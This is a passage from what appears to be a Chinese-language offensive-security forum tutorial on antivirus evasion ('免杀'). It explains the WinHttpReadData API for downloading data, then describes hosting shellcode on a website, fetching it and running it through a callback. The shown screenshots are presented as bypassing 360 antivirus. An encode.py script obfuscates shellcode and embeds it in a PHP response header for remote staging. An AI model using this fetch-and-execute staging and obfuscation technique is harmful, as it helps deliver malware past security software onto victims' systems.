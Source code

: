 ```php
BOOL WinHttpReadData(
  [in]  HINTERNET hRequest,//WinhttpOpenRequest返回的句柄,需要在调用这个api前调用WinHttpQueryDataAvailable
  [out] LPVOID    lpBuffer,//指向接收读取的数据的指针
  [in]  DWORD     dwNumberOfBytesToRead,//要读取多少数据，这个值就是填写我们WinHttpQueryDataAvailable获取到的dwSize
  [out] LPDWORD   lpdwNumberOfBytesRead//指向接收读取的字节数的指针
);
```

例如：

```php
DWORD dwDownloaded=0;
char* pszOutBuffer=new char[dwSize];
if(!WinHttpReadData(hRequest, pszOutBuffer,dwSize,&dwDownloaded))){
    cout <<"读取失败";
    exit(1);
}
cout << pszOutBuffer <<endl;
```

这两个api就相当于python爬虫读取数据一样，我们也可以把shellcode放进shellcode.txt里，在放到网站上，利用这两个api读取，最后回调函数执行

shellcode免杀上线
-------------

**效果如下**  
![360csvt.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a0fcba60fb2452d20921ca302869c876f00b3996.png)

![360cs.PNG](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-8c9ab977728b00cfb3cf5fa184bb2075da832d14.png)

**shellcode加密解密：**  
这里依然是沿用我上一篇文章加密解密方式，师傅们可以去看看我上一篇文章,地址https://forum.butian.net/share/1848  
这里我不在说了

**shellcode加载**  
这里用上面讲的WinHttpSetStatusCallback这个api

**加密代码：**  
encode.py

```php
shellcode = b""
str_=""
for i in shellcode:
    code=(i^1024)+1024
    str_+=str(code)
with open("ii.php","w") as f:
    f.write(f'<?php header("sc:{str_}");?>')
print("ok")

```

运行后会生成一个ii.php文件

```php
<?php header("sc:加密后的shellcode");?>
```
